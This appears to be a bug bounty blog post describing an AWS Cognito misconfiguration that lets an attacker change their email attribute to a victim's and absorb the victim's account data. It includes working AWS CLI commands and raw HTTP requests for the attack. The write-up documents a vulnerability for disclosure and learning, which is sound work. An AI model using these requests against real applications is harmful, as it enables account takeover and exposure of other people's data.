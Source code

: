 ```yaml
---
layout: post
title:  "AWS Cognito Misconfiguration"
date:   2022-11-04
categories: bugbounty
---
```


Hello everyone, hope you are all good and having some fun. After a long time I came up with an other interesting blog where I discuss about an interesting AWS Cognito misconfiguration allowing attacker to merge victim's account with the attacker account on behalf of the victim. This was found on one of the engagements at Synack Red Team.

For those who doesn't know about AWS Cognito. 

### Amazon Cognito

Amazon Cognito provides authentication, authorization, and user management for customer's web and mobile applications. Users can sign in directly with a user name and password, or through a third party such as Facebook, Amazon, Google, Apple, or enterprise identity providers via SAML 2.0 and OpenID Connect. The two main components of Amazon Cognito are user pools and identity pools. User pools are user directories that provide sign-up and sign-in options for application users. Identity pools enable developers to grant users access to other AWS services

**References:**
* [https://aws.amazon.com/cognito/](https://aws.amazon.com/cognito/)
* [https://www.techtarget.com/searchaws/definition/Amazon-Cognito](https://www.techtarget.com/searchaws/definition/Amazon-Cognito)

<p align="center">
<img src="https://docs.aws.amazon.com/images/cognito/latest/developerguide/images/cognito-user-pool-auth-flow-srp.png">
</p>

The Target application was using AWS Cognito for authentication purpose. Upon Login to the application certain requests were being made to AWS Cognito to validate the user. Once the validation check was passed you will be allowed to login to the application

The flow will be as follows

User login -> AWS Cognito (Authentication) -> AWS Cognito (Get User Attributes) -> Application Login

The request for `Get User Attribute` will have a header named `X-Amz-Target: AWSCognitoIdentityProviderService.GetUser` and the response for the request will be as follows

**Request:**
```
POST / HTTP/2
Host: cognito-idp.us-west-2.amazonaws.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-amz-json-1.1
X-Amz-Target: AWSCognitoIdentityProviderService.GetUser
X-Amz-User-Agent: aws-amplify/5.0.4 js
Content-Length: 1072
Origin: https://<REDACTED>
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site

{"AccessToken":"<Token>"}
```

**Response:**
```
{
    "Username": "attacker@attacker.com",
    "UserAttributes": [
        {
            "Name": "sub",
            "Value": "<UUID>"
        },
        {
            "Name": "email_verified",
            "Value": "false"
        },
        {
            "Name": "email",
            "Value": "attacker@attacker.com"
        }
    ]
}
``` 

The above response gives us the list of `user attributes` available. Among those three attributes the `email` attribute is interesting. If we can able to change our email address to victim's email address then we were able to login to the victim account with our attacker's password right? So with this mindset I started the exploitation process by making a request to `Update UserAttributes`. The Update User attribute request can be done by using `AWS CLI` or using a `HTTP Request`. Both examples have been given below

### Method 1 (Using AWS CLI)

**AWS CLI**
```
aws cognito-idp update-user-attributes --region us-west-2 --access-token <Token> --user-attributes 'Name=email,Value=**victim@victim.com**'
```

Run the above command to update the email address to victim's email address. After running the command the update operation was successfull. If you get an error like this `An error occured (AliasExistsException) when calling the ` `UpdateUserAttributes operation: An account with the given email address already exists` it means the application was not vulnerable. 
 
Upon making a request to retrieve the updated `user attributes` using aws-cli with the below given command the response was as follows.

**AWS CLI**
```
aws cognito-idp get-user --region us-west-2 --access-token <Token>
```

**Response:**
```
{
    "Username": "attacker@attacker.com",
    "UserAttributes": [
        {
            "Name": "sub",
            "Value": "<UUID>"
        },
        {
            "Name": "email_verified",
            "Value": "false"
        },
        {
            "Name": "email",
            "Value": "victim@victim.com"
        }
    ]
}
``` 

### Method 2 (Using RAW HTTP Request)

**Request:**
```
POST / HTTP/2
Host: cognito-idp.us-west-2.amazonaws.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-amz-json-1.1
X-Amz-Target: AWSCognitoIdentityProviderService.UpdateUserAttributes
X-Amz-User-Agent: aws-amplify/5.0.4 js
Content-Length: 1072
Origin: https://<REDACTED>
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site

{
   "AccessToken": "<Token>",  
   "UserAttributes": [
        {   
            "Name": "sub",
            "Value": "<UUID>"
        },
        {   
            "Name": "email_verified",
            "Value": "false"
        },
        {   
            "Name": "email",
            "Value": "victim@victim.com"
        }
    ]
}
```

**Response:**
```
{   
    "Username": "attacker@attacker.com",
    "UserAttributes": [
        {   
            "Name": "sub",
            "Value": "<UUID>"
        },
        {   
            "Name": "email_verified",
            "Value": "false"
        },
        {   
            "Name": "email",
            "Value": "victim@victim.com"
        }
    ]
}
```

Now as per the mindset discussed above I have tried to login to the application with the below given credentials.

```
Email: victim@victim.com
Password: attacker'spassword
```

The login was failed. From the above given response i noticed the `username` still remains the same as `attacker@attacker.com` only the email attribute has been changed. So I tried to login to the application with the attacker's credentials such as

```
Email: attacker@attacker.com
Password: attacker'spassword
```

Login was successfull and all the data belonging to `victim@victim.com` was successfully merged over to `attacker's account`. Changes being done by `attacker` was being reflected to `victim's` account. Victim can still login to the application using his credentials as well.


